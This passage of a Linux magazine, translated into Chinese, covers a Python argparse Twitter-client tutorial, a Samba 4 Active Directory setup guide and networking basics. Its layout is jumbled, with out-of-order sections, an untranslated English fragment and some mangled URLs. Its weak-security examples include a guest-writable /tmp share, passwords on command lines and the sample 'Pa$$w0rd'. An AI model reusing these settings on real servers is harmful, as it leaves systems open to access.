多么诽谤！我们必须转义内部引号，以便 bash 不会让我们的结果消失，并且参数会作为短语被引用传递给 Twitter 搜索函数。如果你查看一下代码，你会看到 `twitter_api.py` 处理所有命令行选项并调用 `twitter_functions.py` 中的相关函数。在我们上面的搜索中，一旦我们设置了 API 对象，只需调用 `api.GetSearch()` 即可，我们就获得了我们所选主题的 15 条推文列表。

推文有自己的类，其中包含 `GetText()` 方法用于提取内容，但由于此内容可能采用任何字符编码，我们使用辅助函数 `safe_print()` 在可能的情况下强制使用 UTF-8 输出。你可以从命令行通过 `pydoc twitter.Api` 阅读所有可用的 API 方法，或访问 Google Code 网站这里：http://bit.ly/1jz5qll。请注意，`argparse` 模块现在取代了旧的 `optparse` 模块，提供了一种方便的解析命令行参数的方法。

我们对 Windows XP 的搜索发现了很多担心的人——生存工具包确实如此。请注意 Unicode 字符是如何漂亮地打印的。


## 添加 argparse

通过导入 `argparse` 模块然后创建 `ArgumentParser` 对象并调用 `parse_args()`，你的程序将免费获得 `-h` 或 `--help` 选项。你可以通过创建一个名为 `getArg.py` 的文件并添加以下内容来亲眼看到这一点：

```
import argparse
parser = argparse.ArgumentParser()
args = parser.parse_args()
```

然后运行 `python getArg.py -h` 来查看你的免费使用信息。就目前而言，这并不是特别有用，但一旦我们开始添加参数，这就会改变。参数可以是位置参数（强制性）或可选参数，我们可以通过在最后一行上方插入以下内容来向 `argparse.py` 添加一个强制性参数：

```
parser.add_argument("gr_arg", help="Repeat what you just told me")
```

## 稍作休息

REST 是 Representational State Transfer 的缩写，指的是一组用于收集和共享数据的原则，而不是任何具体的协议。Twitter 实现了两个主要 API，一个是 RESTful 的，我们将使用它，另一个是流式 API，我们不会使用。流式 API 提供对实时数据的低延迟访问，你可以用它做各种花哨的事情，但 RESTful API 提供了一个简单的查询和响应机制，这完全符合我们的目的。

有几种方法可以让你的应用程序通过 Twitter 进行身份验证。如果你只是想访问公开数据，那么有一种仅限应用程序的方法。否则你需要使用 OAuth 令牌，这对于这个简单的个人使用练习来说可能看起来有点复杂，但用户名/密码身份验证在去年被关闭了。正确的 OAuth2 身份验证是一个来回的舞蹈，具体变化取决于上下文。最终它会询问用户是否允许一个应用使用

他们的账户，如果用户同意，则通过回调 URL 将访问令牌返回给应用。只有经过身份验证的应用程序可以使用该令牌，并且用户可以随时撤销它。好处是应用程序永远看不到用户的凭据。在我们简单的情况下，我们将令牌硬编码到我们的开发者账户中，如果你制作的是可分发的产品，你永远不会分享变量密钥，并且所有访问令牌都将动态请求。

现在当你运行 `python argtest.py` 时，你会收到一条严厉的责备，提示“参数太少”。如果你使用 `-h` 选项运行它，你会看到正确使用你的程序需要你为 `grr_arg` 提供一个值。我们还没有为此选项添加任何功能，但至少如果我们运行程序并带上参数，例如 `python argtest.py foo`，那么我们就不再会收到错误，或者根本没有任何输出。我们创建的 `args` 命名空间包含程序期望的所有参数，因此我们可以通过将以下内容添加到文件中来使用 `grr_arg`：

```
print("You argued: {}. Huh.".format(args.grr_arg))
```

## 使用参数

更复杂的参数也可以轻松处理，例如我们可以通过修改 `add_argument` 调用像这样来对任意长的整数列表求和：

```
parser.add_argument('integers', metavar='N', type=int, nargs='+', help='some integers')
```

默认情况下，参数被假定为字符串，因此我们使用 `type` 选项来规定提供的是整数。`metavar` 指令指的是在用法消息中如何引用你的参数，而 `nargs='+'` 指的是可以提供多个整数。我们可以用 `nargs=2` 制作一个求和两个整数的普通程序，但那样会有多无聊呢？我们必须将提供的参数放入列表 `args.integers` 中，因此我们可以这样处理它：

```
print("The answer is {}.".format(sum(args.integers)))
```

我们的 Twitter 项目完全使用可选参数。这些东西前面带有破折号，通常有长形式，例如 `--verbosity`，以及短形式，比如 `-v`。我们的 Twitter 程序总共有 5 个选项（不计入互补的 `--help` 选项）：`--search` `--trending-topics` `--user-tweets` `--trending-tweets` 和 `--woeid`。目前 `--woeid` 仅影响 `--trending-topics` 和 `--trending-tweets` 选项。虽然 `argparse` 模块可以轻松处理对这些参数进行分组，以便在你尝试将 `--woeid` 与其他选项一起使用时发出错误，但不去理会并静默忽略用户的多余输入要容易得多。我们难道还没见过足够的错误吗？例如，`search` 参数需要一个额外的字符串参数（你要搜索的内容），描述如下：

```
parser.add_argument("-s", "--search",
    type=str,
    dest="search_term",
    nargs=1,
    help="Display tweets containing a particular string.")
```


一旦我们构建了所有参数，我们就将它们汇总到一个命名空间中：

```
args = parser.parse_args()
```

这样我们的搜索词就可以通过 `args.search_term` 访问，我们将其传递给 `twitter_functions.py` 中的 `search()`。此函数通过以下方式获取推文列表：

```
tweets = api.GetSearch(searchTerm)
```

下面的代码块会打印出所有推文，并以负责该推文的用户 ID 为前缀：

```
for tweet in tweets:
    print("@"+tweet.user_screen_name+":")
    util.safe_print(tweet.GetText())
    # get search
```

我们对所有可用的可选参数的使用说明。

## 周围的趋势

原始的 Python Twitter 代码起源于波士顿，并据此硬编码了 `trendingTopics()` 函数使用的地球上位置 ID（WOEID）（它是 2367105）。我们可以原谅作者对他们新英格兰根源的执着，但为了本教程，我们添加了 `--woeid` 选项，以便查看其他地方的热门内容。这是一个可选参数，仅影响趋势主题/推文函数。如果你不提供它，则结果将基于使用 API 的 `GetTrendsCurrent()` 方法返回的全球趋势，而不是 `GetTrendsWOEID()`。你可以使用 http://zourdoub.com/tools/woeid 上的 WOEID 查询工具来查找。

例如，我们可以通过以下调用查看阳光明媚的格拉斯哥正在发生什么：

```
python twitter_api.py --trending-topics --woeid=21125
```

这仅适用于少数几个城市，因此你所称的那个可恶的偏远荒地家园可能没有任何相关趋势

## OpenHatch 社区


OpenHatch.org 是一个总部位于波士顿的非营利组织，其目标值得钦佩且高尚，即降低进入开源开发的门槛。 其网站提供了一个将志愿者贡献者与各种社区和教育项目匹配的系统，并举办了许多免费工作坊，传授成为真正的开源贡献者所需的技能。 自 2011 年以来，它一直举办外展活动，特别关注 Python，但也涵盖其他软件，并努力让更多女性参与编程。 在本文中，我们在 OpenHatch 的 Python 代码的基础上进行了构建，该代码可与 Twitter 社交网络平台进行简单而强大的交互。 原始代码是为 2012 年的 Python 工作坊开发的，我们已将其更新并在此教程中进行了扩展。 特别是我们现在使用 `argparse` 模块而不是已弃用的 `optparse`。 你可以在官方网站 (http://bit.ly/1fuabf) 上查看来自 OpenHatch 和其他活动的其他优秀 Python 项目。 你甚至可以用你疯狂的编程技能帮助无数值得的事业。

with it, which results in an error. You can test for this in the Python interpreter as follows, where `woeid` is the WOEID of your desired location:

```
import twitter_functions
test = twitter_functions.GetTrendsWoeid(woeid)
```

If you don’t get an error ending with ‘Sorry, this page does not exist’, then all is well. We use Python’s error catching to fallback to the global trends function `GetTrendsCurrent()` when this happens:

```
try:
    trending_topics = api.GetTrendsWoeid(woeid)
except twitter.TwitterError:
    trending_topics = api.GetTrendsCurrent()
```

It’s prudent (but not necessarily essential), the catchall clause `except` is entirely valid) to specify the exception that you want to catch – if you aren’t specific, however, confusion and hairpulling may arise. The common base exceptions include `IOError`, for when file operations go wrong, and `ImportError` which is thrown up when you try and import something that isn’t there:

```
try:
    import sys, absent_module
except ImportError:
    print "the module is not there"
    sys.exit()
```

Modules will also provide their own exceptions, for example if you try and do this tutorial without a network connection you’ll get an error from the `urllib2` module. So we catch that by wrapping the net-dependant functions. We can chain `except` clauses, so the next bit of the above code is:

```
except twitter.urllib2.URLError:
    print "Error: Unable to connect to twitter, giving up"
    twitter.sys.exit()
```

The user `Tweets()` function is pretty straightforward, so we’ll just print the relevant segment here:

```
tweets = api.GetUserTimeline(screen_name=username)
for tweet in tweets:
    util.safe_print(tweet.GetText())
```

## Unicode 修复器

函数 `trendingTweets()` 稍微复杂一些：我们需要先获取热门话题列表，然后对每个话题抓取一些推文。 但尾部有一个刺 – 有时返回的话题中会包含奇怪的 unicode 字符，在将其提供给我们的搜索函数之前需要对其进行清理。 具体来说，我们需要使用 `urllib2.quote` 函数进行适当的转义，否则它将尝试并失败地将其 ASCII 化。

> “对于本教程，我们添加了 `--woeid` 选项来查看其他地方的热门内容。”

```
trending_topics = api.GetTrendsCurrent()
for topic in trending_topics:
    print "***", topic.name
    esc_topic_name = twitter.urllib.quote(topic.name.encode('utf8'))
    tweets = api.GetSearch(esc_topic_name)
    for tweet in tweets[:5]:
        print '@' + tweet.screen_name + ':'
        util.safe_print(tweet.GetText())
    print '\n'
```

我们有点不厚道地假设至少会有五条推文，限制 `GetSearch` 返回的推文数量的语法似乎处于变动状态，但由于这些是热门话题，因此合理地认为会有很多。 这就完成了我们对 pythonic twittering 的首次尝试。 我们开发了一个命令行 Twitter 客户端的雏形，我们解析了选项，捕获了异常并清理了字符串。 如果你的胃口足够被挑起，那么为什么不更进一步呢？ 你可以添加一个 `--friends` 选项来仅显示你朋友的推文，一个 `--post` 选项来发布内容，一个 `--follow` 选项，以及你想要的任何其他内容。

你可能不会得到与网站完全相同的结果，但这两种方法都表明人们似乎关心橡果。


# 介绍一个全球科技品牌

它承诺改变

你消费科技的方式


# 报道

最新的

科技

- 深入

- 详细

- 经过全面测试的设备


# 黑客手册

2015年

## 网络

真正的 Linux 大师的标志是在桌面、命令行以及最重要的网络方面的专业能力。将多台机器（甚至运行不同操作系统的机器）连接在一起的技能至关重要——在当今时代，孤立的 PC 是极为罕见的。

- Samba：与 Windows 共舞 ................................................ 92

- 网络：基础知识 ................................................................. 98

- Wireshark：分析流量 .......................................................... 102

- 网络：构建路由器 ........................................................ 106

- Deluge：搭建 Torrent 服务器 .................................................. 110

- Docker：构建容器 ........................................................... 114

- Zabbix：监控你的网络 .................................................... 118

### Samba：与 Windows 共舞


这是一个面向 Linux 的 Windows 互操作套件，拥有 Active Directory 支持。让我们来体验一下。

我们都喜欢我们的 Linux 机器，但大多数人在某个时候都需要与 Windows 机器在网络中共存，并知道 Samba 是能够在 Linux 和 Windows 之间共享文件系统的东西。但它能做的远不止这些，而且从第 4 版开始，它与微软的 Active Directory 完全兼容。这是一件大事——Samba 长期以来一直能够充当 Windows NT 4.0 域控制器，或者

> “Samba 4 完全实现了 Active Directory 域控制器功能”

加入现有的 Windows NT 4.0 域，但随着 Windows 2000 的发布，微软开始从 NT 域控制器转向其新的 Active Directory，拉大了 Linux 和 Windows 生态系统之间的差距。Samba 4 及更高版本通过完全兼容 Active Directory，为这一问题提供了期待已久的补救措施。它完全实现了 Active Directory 域控制器功能，从而有效取代 Microsoft 的 Windows Server 产品线中的相应功能。

Samba 是服务器消息块（Server Message Block，SMB）协议的开源实现。这是一种应用层网络协议，最初由 IBM 开发，用于提供对文件和打印机的共享访问。微软扩展了其对 SMB 的实现，以支持使用其自身的 NT LAN Manager（NTLM）以及后来的 NTLMv2 协议进行身份验证。微软称这一实现为通用互联网文件系统（Common Internet File System，CIFS）。包括支持符号链接在内的进一步扩展，以 SMB2 的形式随 Windows Vista 发布。

Samba 从 3.6 版本开始支持 SMB2。微软随 Windows 7 推出了 SMB2.1，随 Windows 8 推出了 SMB3。它将这些不同版本的协议称为方言，因此 CIFS 和 SMB2 都是 SMB 协议的方言。虽然这些方言是专有的，但其规范是公开可用的。

微软在 2004 年与欧洲法院和解的成果之一是发布了使用 Active Directory 进行网络身份验证的完整文档。这促使了 Samba 第 4 版的开发，微软本身也参与了测试。

（LDAP）版本 2 和 3。Kerberos 和 DNS。Samba 使用自己的 LDAP 实现，称为 `ldb`；它不支持将 OpenLDAP 用于 Active Directory。

因此，现在有两种使用 Samba 的方式——一种是像以前那样使用它（经典 Samba），它可以作为域成员或独立运行，这也是设置基本共享所需的全部内容。另一种方式是将 Samba 用作功能完备的 ADDC。你使用 Samba 的方式将取决于你的需求，但首先要做的是安装它。大多数发行版都应在软件仓库中包含它。另一种选择是从 `www.samba.org/samba/download` 下载源代码来构建。

> “使用 Samba 的方式取决于你的需求”

`org/samba/download`。安装后，Samba 的配置文件名为 `smb.conf`，通常位于子目录中，例如 `/etc/samba`。最简单的配置是使用一个独立的公共共享：

```
[global]

server string = Samba Server Version

%v

# Treat unknown users as a guest
(where permitted)
security = user
map to guest = Bad User

[tmp]
path = /tmp
read only = No
browseable = Yes
guest ok = Yes
force user = nobody
force group = nobody
create mask = 0755
directory mask = 0755
```

这会使服务器上的 `/tmp` 通过 TCP/IP 作为 Samba 共享提供。使用 `security = user` 和 `map to guest` 可以让来宾共享以类似于现有的 Samba 管理员所熟悉的已弃用的 `security = share` 模式的方式运行。拥有 Samba 无法识别的 Windows 用户名的用户将无需提供凭据即可访问共享，并且他们将被认证为来宾用户。

他们在那里写入的任何文件，其用户 ID 和组 ID 都将设置为 `'nobody'`。然而，如果 Samba 知道该用户名，则会提示用户输入其密码。这可能看起来很奇怪，但与 Windows 的工作方式一致。启动 Samba 守护进程 `smbd`，即可让该共享在 Windows 上被访问。要访问它，只需使用 Windows 资源管理器浏览到 Samba 服务器（你可以使用其名称或 IP 地址）。

# 添加/移除 NetBIOS

有一种长期以来一直与 Windows 网络关联的网络协议，因此它是 Samba 套件中不可或缺的一部分：NetBIOS。如今，NetBIOS 通常指基于 TCP/IP 的 NetBIOS 协议，它被认为是一种传统协议。它为没有 DNS 功能的设备提供名称解析、文件和打印机共享。

它曾经在 Windows 网络中必不可少，但现在除了涉及旧版 Windows 之外，已不再必要。如果你希望运行 Windows 2000 之前的操作系统的客户端能够访问你的共享，你仍然需要它。如果你不想包含 NetBIOS，可以在 `smb.conf` 的 `[global]` 部分添加以下内容来明确示意：

```
[global]
# disable NetBIOS
 disable netbios = yes
 smb ports = 445
```

不过，如果你需要启用 NetBIOS，则需要对 `smb.conf` 进行其他更改：

[global]

```
# NetBIOS identification
workgroup = WORKGROUP
netbios name = MYHOST
wins support = Yes
```

这告诉 Samba 使用 NetBIOS 让其在默认工作组中向 Windows 网络宣传自己（Windows 机器默认使用名为 WORKGROUP 的工作组），并充当 WINS 服务器。NetBIOS 名称相当于主机名——不必与主机名相同，但通常如此。WINS 是 Windows Internet

# 快速提示

修改 `smb.conf` 时，你无需重启或向 Samba 发送信号，因为它会自动检测更改。

# SMBFS 和 CIFS

Linux 上有两个虚拟文件系统实现允许挂载 SMB 共享：SMBFS 和 CIFS。后者是较新的实现，已内置在内核中。使用 CIFS 所需的用户空间工具最初是 Samba 的一部分，但现在已经是一个名为 `cifs-utils` 的独立包。

最初也是 Samba 套件一部分的 SMBFS 已被弃用——你应该使用 CIFS 来挂载 Samba 文件系统。其结果是，如果你只想在 Linux 机器上挂载 Windows 共享，你不需要 Samba。挂载 Windows 共享非常简单：

```
mount -t cifs -o username=myuser,password=mypass //myserver/myshare /mnt
```

CIFS 和 SMB 之间的区别可能有点令人困惑，因为 CIFS 方言比 SMB 新，但比 SMB2 旧，而 CIFS 比 SMBFS 新，支持 SMB、CIFS 以及更新的 SMB2 和 SMB3 方言。更多详情，请参阅客户端指南。`http://pserver.samba.org/samba/ftp/cifs-cvs/linux-cifs-client-guide.pdf`

SMB 和 CIFS 协议规范发布于 `http://msdn.microsoft.com/en-us/library/cc246482.aspx` 和 `http://msdn.microsoft.com/en-us/library/ee442092.aspx`。

## Networking


### Strange things can happen when clocks aren't synchronised!

WINS，微软对 NetBIOS 名称服务的实现，它为 NetBIOS 名称提供与 DNS 为域名提供的类似服务（将主机名映射到网络地址）。没有 WINS 服务器也能解析名称，但仅限于本地子网——如果客户端无法通过 WINS 服务器解析 NetBIOS 名称，则会退而在网络上广播“你在吗？”消息。这就是系统管理员讨厌 NetBIOS 的原因之一，也是除非你真的需要它否则应将其禁用的原因。你也可以在互联网上读到大量关于 NetBIOS 不安全的内容。

> “你可以在互联网上读到大量关于 NetBIOS 不安全的内容。”

### Password management


这是 Active Directory 设置与经典设置不同的第一个领域。经典 Samba 使用自己的密码数据库，其中包含加密的密码，但由于文件权限与 Unix 用户和组相关，因此这些与服务器上的用户直接相关。Active Directory 用户与 Unix 用户无关（稍后会详细介绍）。要向经典 Samba 添加用户：

```
smbpasswd -a myuser
New SMB password:
```

### Quick tip

升级用户应注意 `smbpasswd` 文件在内部已更改，因此在 Samba 3.x 和 Samba 4 之间不可移植。

```
Retype new SMB password:
Forcing Primary Group to 'Domain Users' for myuser
Forcing Primary Group to 'Domain Users' for myuser
Added user myuser.
```

请注意，一旦用户已添加到 Samba，Windows 将要求输入其密码——即使是访客共享。添加用户特定的共享，例如主目录，可以通过在 `smb.conf` 中添加条目来实现：

```
[myuser]
    comment = %U home directory
    writable = yes
    valid users = myuser
    path = %H
```

或者，更普遍地使用特殊的 `[homes]` 共享，它为每个用户创建主目录共享。当用户尝试连接共享时，Samba 会查找像上面那样的显式共享定义。如果未找到，但存在 `[homes]` 共享，则该共享将像模板一样使用以创建用户请求的共享。下面显示了一个合适的示例；`browsable` 条目可防止在浏览共享时出现 `[homes]`。

```
[homes]
    comment = %U home directory
    writable = yes
    browsable = no
```

另一种特殊类型的共享是 `[printers]`。顾名思义，这允许 Windows 客户端使用连接到 Samba 服务器的打印机。它使用 CUPS 来排队原始打印作业，这意味着客户端需要安装适当的打印机驱动程序。它将转换为打印机可以处理的原始数据。打印需要设置了粘滞位的 `spool` 目录：

### Windows 7 test client

需要一台运行 Windows 的计算机来完全评估 Samba 4 的 Active Directory 功能。我们安装了 Windows 7 Ultimate Service Pack 1 以及远程服务器管理工具。

从这些工具中，你需要的是 Active Directory 用户和计算机（可执行文件名是 `dsa.msc`）。请参考相关的 Microsoft 网页以获取有关安装这些工具的更多信息：

- **Windows 7 Service Pack 1:** www.microsoft.com/en-us/download/details.aspx?id=5842
- **Windows 7 RSAT:** www.microsoft.com/en-gb/download/details.aspx?id=7887

如果你希望 Windows 机器响应 ICMP Ping 请求，你需要向 Windows 防火墙添加适当的规则（或完全禁用防火墙）。

要添加规则，请转到“开始 > 控制面板 > 系统和安全 > Windows 防火墙 > 高级设置 > 入站规则 > 新建规则”。为 ICMPv4 协议创建自定义规则。请记住，Windows 的家庭版和入门版无法加入域。


对于 Active Directory 用户和计算机，搜索“dsa.msc”并以管理员身份运行。

```
# mkdir /var/spool/samba
# chmod 1777 /var/spool/samba
```

必要的 Samba 配置设置了 CUPS 打印并在 `[printers]` 共享上共享其打印机：

```
[global]
    load printers = yes
    printing = cups
    printcap name = cups

[printers]
    comment = Printers
    path = /var/spool/samba
    browsable = yes
    writable = yes
    printable = yes

[print$]
    comment = Printer Drivers
    path = /usr/share/samba/print
    writable = yes
```

额外的 `[print$]` 共享是可选的，但它是用于 Point and Print 驱动程序。它允许管理员将打印机驱动程序上传到服务器，这样用户在安装打印机时就不必自己寻找驱动程序。 `[print$]` 共享的目录应连同要支持的打印机架构的子目录一起创建：

```
# mkdir -p /usr/share/samba/print/{COLOR,IA64,W32ALPHA,W32MIPS,W32PPC,W32X86,WIN40,x64}
```

上传打印机驱动程序最简单的方法是由管理员用户登录到 Windows 客户端。在 Windows 7 上，浏览到服务器（例如，`\\MYHOST`）然后单击“查看远程打印机”。按 `[Tab]` 显示菜单栏，然后选择“文件 > 服务器属性”。转到驱动程序选项卡并单击“添加”。这将启动服务器的添加打印机驱动程序向导。上传驱动程序后，需要将其与打印机关联；浏览到打印机并打开其属性页面。在其高级选项卡中，从下拉列表中选择已上传的驱动程序。Windows 客户端可以添加打印机（例如，在 Windows 7 上转到“开始 > 设备和打印机 > 添加打印机”以添加网络打印机）。如果驱动程序已安装在 `[print$]` 上，它会自动安装，否则用户需要自行查找并安装正确的驱动程序。

## 域控制

我们现在来看看 Samba 4 提供的 Active Directory 实现。最好假设，虽然 Samba 4 可以充当独立/NT 域成员或作为 Active Directory 域控制器，但这两种配置非常不同，在某种程度上是不兼容的。

然而，将 Samba 设置为 Active Directory 域控制器是相当直接的，因为有一个配置工具可以执行设置任务：

```
# samba-tool domain provision
Realm [MYDOMAIN.CO.UK]:
```

### 快速提示

> 有一些教程视频在 `https://wiki.samba.org/index.php/Samba4/videos`，提供了配置过程的良好演示。

```
Domain [MYDOMAIN]:
Server Role (dc, member, standalone) [dc]:
DNS backend (SAMBA_INTERNAL, BIND9_FLATFILE, BIND9_DLZ, NONE) [SAMBA_INTERNAL]:
DNS forwarder IP address (write 'none' to disable forwarding) [10.0.0.138]:
Administrator password:
Retype password:
```

密码需要足够复杂：一个大写字母、一个数字并且至少八个字符长。‘Pa$$w0rd’是我们测试中使用的一个合适的示例，尽管它并不安全。当配置完成时，它会解释它已生成适用于 Samba 4 的 Kerberos 配置。你需要将此文件复制到指定位置：

```
# cp /var/lib/samba/private/krb5.conf /etc
```

接下来，DNS 解析器需要配置为指向 Samba，因为它也是新 Windows 域的 DNS。你可以通过编辑 `/etc/resolv.conf` 来实现，或者如果该文件由 `dhcpcd` 等服务写入，则调整该服务的配置。

## Kerberos 到底是什么？

Kerberos 是一种网络身份验证协议，它使用票证系统允许实体在不通过它们之间传输密码的情况下，在不安全的网络上安全地进行身份验证。这是一种成熟的协议，起源于 1980 年代的 MIT，当时它作为大学网络安全问题的解决方案而创建，并自 1987 年以来就是开源的（http://web.mit.edu/kerberos），现在它被 Active Directory 域控制器使用。

Kerberos 连接中有三个参与者：客户端、资源以及一个称为密钥分发中心 的 Kerberos 服务器。正是因为这种三位一体的关系，Kerberos 以古希腊神话中守护冥河之门的“三头犬”命名。


Kerberos 身份验证由密钥分发中心分两个阶段执行。首先，客户端请求一个票证授予票证。这通常在客户端最初登录时执行。TGT 最终会过期，但在必要时可以透明地续订。第二阶段在客户端希望访问受 Kerberos 保护的资源时发挥作用。它将 TGT 发送回服务器，服务器验证它并返回一张允许访问所请求资源的票证给客户端。

这是一个相当简化的解释，关于一个非常复杂的过程，其最好由一个有用的视频演示来解释：www.youtube.com/watch?v=KD2Q-2TEoL。在 Active Directory 域中，Kerberos 密钥分发中心是由 Active Directory 域控制器提供的网络服务。


## 网络

无论哪种方式，`/etc/resolv.conf` 应该如下所示：

```
domain mydomain.co.uk
nameserver 127.0.0.1
```

Samba 会将自身无法解析的请求转发到在配置步骤中指定的 DNS 转发地址。它使用自己的内部 DNS 服务器，但也可以配置为使用外部 BIND DNS。然而，由于内部版本提供了很多免费功能，除非确实需要，否则可能不值得这样做。

## 测试阶段

配置步骤完成后，我们可以启动域控制器并执行一些测试。Active Directory 模式使用新的 `samba` 二进制文件，而不是通常的 `smbd`。在这里，我们在测试时将其置于前台启动：

```
# samba -M single mydomain
Copyright Andrew Tridgell and the Samba Team 1992-2012
samba: using 'single' process model
# host -t SRV _ldap._tcp.mydomain.co.uk
# host -t SRV _kerberos._udp.mydomain.co.uk
```

```
_kerberos._udp.mydomain.co.uk has SRV record 0 100 88 myhost.mydomain.co.uk
# host -t A myhost.mydomain.co.uk
host -t A myhost.mydomain.co.uk
```

接下来，测试 Kerberos（在提示时输入管理员密码）：

```
# kinit administrator@MYDOMAIN.CO.UK
Password for administrator@MYDOMAIN.CO.UK:
# klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: administrator@MYDOMAIN.CO.UK
Valid starting Expires Service principal
08/02/13 16:25:31 09/02/13 02:25:31 krbtgt/MYDOMAIN.CO.UK@MYDOMAIN.CO.UK
renew until 09/02/13 16:25:21
```

此时，你应该能够看到 Samba 共享并访问它们：

```
$ smbclient -L localhost -U%
Domain=[MYDOMAIN] OS=[Unix]
Server=[Samba 4.0.3]
Sharename Type Comment
netlogon Disk
sysvol Disk
```

```
IPC$ IPC IPC Service (Samba 4.0.3)
$ smbclient //localhost/netlogon -UAdministrator%Pa$$w0rd -c 'ls'
Domain=[MYDOMAIN] OS=[Unix]
Server=[Samba 4.0.3]
```

Active Directory 域控制器提供的另一项服务是时间同步。虽然是可选的，但提供此服务强烈推荐，因为 Kerberos 对客户端和服务器之间的时间差异高度敏感。

域控制器提供的所谓 Windows 时间服务是一种具有身份验证扩展的网络时间协议（NTP）服务器。Linux 上有多种 NTP 实现，例如 `ntpd` 和 `open-ntpd`，但只有 `ntpd` 版本 4.2.6 及更高版本才支持必要的身份验证扩展，并且仅在编译时包含该支持的情况下才支持（你应该使用 `ntpd --version` 检查你的 `ntpd` 版本）。正确配置的 `ntpd` 会要求 Samba 执行任何必要的身份验证。`ntpd` 配置位于 `/etc/ntpd.conf`。以下是合适的示例：

```
server 127.127.1.0
fudge 127.127.1.0 stratum 12
ntpsigndsocket /var/lib/samba/ntp_signd/
restrict default noserve
```

重要的行，可能不存在于现有的 `ntpd.conf` 中，是最后两行。`ntpsigndsocket` 条目定义了 Samba 放置套接字文件的目录的路径，通过该文件它将接收身份验证请求。`restrict` 条目告诉 `ntpd` 到来的请求需要经过身份验证。套接字路径由 Samba 的配置决定，你可以使用以下命令确认正确的路径：

```
# samba-tool testparm --verbose --suppress-
```


Samba Web Administration Tool（SWAT）仍然存在，但未更新。

```
prompt | grep "ntp signd socket directory"
ntp signd socket directory = /var/lib/samba/ntp_signd
```

Samba 创建套接字目录，但必须确保它可由 `ntpd` 写入。如果 `ntpd` 以 uid/gid ntp:ntp 运行，则应将目录的组也更改为 ntp。

重新启动 `ntpd` 以确保任何配置更改被采纳，然后检查其日志文件，查看 `ntpd` 是否在没有 `--enable-ntp-signd` 编译时配置选项的情况下配置的警告。如果看到该警告，则你的 `ntpd` 不支持所需的身份验证机制。你需要获取 `ntpd` 的源代码并重新编译以包含上述编译时配置选项。不幸的是，没有工具可以从 Linux 测试 NTP 身份验证。

要从加入域的 Windows 计算机进行测试

“无论你的需求如何，Samba 4 都提供了一个可行的开源替代方案”

以管理员身份打开命令提示符窗口（为此，单击“开始”按钮，键入 `cmd`，然后在搜索结果中右键单击命令提示符条目以选择“以管理员身份运行”）并输入：

```
C:\> w32tm /resync
Sending resync command to local computer
The command completed successfully.
```

在将 Windows 客户端连接到新域之前，更改其网络配置，使其使用 Samba 的 DNS。此外，最好手动调整客户端的时钟，使其与域控制器相差几秒钟。如果他们的时钟不同步，可能会报告与实际问题无关的错误。一旦客户端成为域成员，Windows 时间服务将保持时钟同步。

## 域管理员

要将客户端添加到域，请转到 开始 > 计算机 > 右键单击 > 属性 > 更改设置。这将显示计算机名称/域更改对话框，在“成员身份”部分中应选择域并输入 Samba 域名（例如，mydomain），然后按确定。这应请求管理员帐户凭据（用户名为 Administrator，密码为 Pa$$w0rd，如果你遵循我们的示例设置）。

域管理可以在服务器上本地使用 `samba-tool` 命令行实用程序执行，或从连接到域的 Windows 计算机远程执行。管理员使用适当配置的计算机可以运行 Active Directory 用户和计算机工具。

它提供对用户和计算机的完全控制，并且与管理 Microsoft Active Directory 的功能完全相同。

将用户添加到 AD 的方式与经典 Samba（使用 `smbpasswd`）不同，但更灵活，因为它可以从服务器命令提示符使用 `samba-tool` 执行，或从 Windows 使用 Active Directory 用户和计算机远程执行。

当创建 Active Directory 用户时，它们与 `/etc/passwd` 中的现有用户无关，因为它们被赋予了不同的 uid 号码。可以更改分配的 uid，并且做起来相当简单：

```
# wbinfo --name-to-sid myuser
S-1-5-21-4099219672-1275272411-291422405-1104 SID_USER (1)
# ldbedit -H idmap.ldb -s 1-5-21-4099219672-1275272411-291422405-1104
```


这允许你使用默认编辑器编辑 Samba ID 映射数据库中的条目，以便你可以更改用户的 `uid`（`idmap.ldb` 的位置取决于你的安装，但将是类似 `/var/lib/samba/private` 或 `/usr/local/samba/private` 的路径）。

| # editing 1 records |

| 1 # record 1 |

| 2 dn: CN=S-1-5-21-4099219672-1275272411-291422405-1105 |

| 3 cn: S-1-5-21-4099219672-1275272411-291422405-1105 |

| 4 objectClass: sidMap |

| 5 objectSid: AQUAAAAAAAUVAAAA2CBV9NSAoZFWf4RUQQAA== |

| 6 type: ID, TYPE, BOTH |

| 7 xidNumber: 300020 |

| 8 distinguishedName: CN=S-1-5-21-4099219672-1275272411-291422405-1105 |

要更改的值是 `xidNumber`，可以将其更改为用户的正确 `uid`。退出编辑会话时，更改将保存到数据库中。

设置文件共享可以像经典 Samba 一样通过在 `smb.conf` 中添加相关块来完成。你可以像经典 Samba 一样共享 `[homes]`，但可以更进一步，提供具有 `[profiles]` 共享的漫游配置文件：

```
[profiles]
comment = Roaming Profiles
path = /var/lib/samba/profiles
writable = yes
browseable = no
```

为了为用户配置漫游配置文件，使用 Active Directory 用户和计算机工具编辑用户的设置，并将他们的配置文件路径设置为 `\\mydomain\profiles\%USERNAME%`。在此之后，当他们登录和注销域上的任何客户端时，他们的配置文件将在本地磁盘和服务器上的 Profiles 区域之间复制。

## 快速提示

最新稳定版 Samba 4.0.22 的发行说明可在 `http://bit.ly/10kq4tc` 获取。


添加用户可以从 Windows 进行。

所以你已经知道了。无论你的需求是仅仅基本的文件共享还是更复杂的东西，例如完整的 Active Directory 环境，Samba 4 都提供了一个可行的开源替代方案，可以替代原本昂贵的专有选项。

## 网络

在你迈出理解网络和连接 Linux 机器的第一步时，我们将介绍一些关键概念。


工具（例如网络分析工具 Wireshark，见第102页）用于检查和构建网络。

首先，我们的目标是向你介绍支撑网络中其他一切活动的三个核心思想：数据包、物理连接和寻址。然后，我们将创建一些虚拟机（见第106页）并构建一些简单的网络。

### 分组交换网络

让我们先从什么是网络开始讲起。简单来说，网络就是两台或更多台计算机通过某种物理介质连接在一起，无论这种介质是铜线（称为以太网）、光纤电缆还是无线电波（称为 Wi-Fi）。通过在这类介质上发送信号，计算机之间便能共享信息。

听起来很简单——你在两台计算机之间连接一根导线，并通过导线发送电信号，这两台计算机就能共享信息。问题是，即使这个简单模型（暂且忽略电信号如何编码和解码的问题）也会很快遇到麻烦。

我们在两台计算机之间共享的数据通常庞大而复杂，由数百万比特组成。这些数据如果以连续数据流的形式通过导线传输，可能需要几分钟、几小时甚至几天才能发送完成。如果只有两台计算机，这还不是什么大问题；一台计算机只需等待接收信号，确认已获得全部信息之后，就可以轮到自己发回一些信息了。

